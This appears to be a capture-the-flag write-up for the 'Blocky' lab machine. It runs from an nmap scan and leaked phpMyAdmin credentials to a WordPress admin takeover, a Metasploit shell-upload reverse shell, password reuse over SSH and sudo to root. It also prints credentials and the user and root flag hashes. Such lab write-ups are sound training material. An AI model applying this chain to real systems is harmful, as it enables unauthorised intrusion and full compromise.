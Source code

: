 # Blocky

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.37

PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
8192/tcp  closed sophos
25565/tcp closed minecraft

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## phpMyAdmin
![phpmyadmin](./screenshots/phpmyadmin.png)

## Wiki
![wiki](./screenshots/wiki.png)

## Wordpress Admin Login Page
![wp_login](./screenshots/wp_login.png)

## Plugins
![plugins](./screenshots/plugins.png)

## phpMyAdmin Credential in BlockyCore.jar (BlockCore)

```
root: 8YsqfCTnvxAUeduzjNSXe22
```

![db_cred](./screenshots/db_cred.png)

## Wordpress Admin Login
Chose `passme` as `notch`'s password and generated its Wordpress hash, then edited the password hash via phpMyAdmin.

```
passme: $P$BZ.5OIwN/q5ZOjJLfypdMymuL4mBTf/
```

![admin_pass](./screenshots/admin_pass.png)

![admin_panel](./screenshots/admin_panel.png)

## RCE via Wordpress Admin SHELL Upload
```
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Authenticating with WordPress using notch:passme...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/aZrLOPxtir/PUKoFDKHmJ.php...
[+] Deleted PUKoFDKHmJ.php
[+] Deleted aZrLOPxtir.php
[+] Deleted ../aZrLOPxtir
[*] Command shell session 3 opened (10.10.14.11:4444 -> 10.10.10.37:35802) at 2021-03-28 02:37:35 +0300

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Wordpress DB Credential
```
/var/www/html/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'kWuvW2SYsABmzywYRdoD');
define('DB_HOST', 'localhost');
```

## SSH Login via phpMyAdmin Credential
notch user uses the password which was found in `BlockyCore.jar`.

```
notch: 8YsqfCTnvxAUeduzjNSXe22
```

```
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

## The User Flag
```
notch@Blocky:~$ ls -l /home/notch/
total 8
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft
-r-------- 1 notch notch   32 Jul  2  2017 user.txt
```

```
notch@Blocky:~$ cat /home/notch/user.txt 
59fee0977fb60b8a0bc6e41e751f3cd5
```

## The Root Flag
```
notch@Blocky:~$ sudo su
[sudo] password for notch: 
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@Blocky:/home/notch# ls -l /root/
total 4
-r-------- 1 root root 32 Jul  2  2017 root.txt
```

```
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5f
```
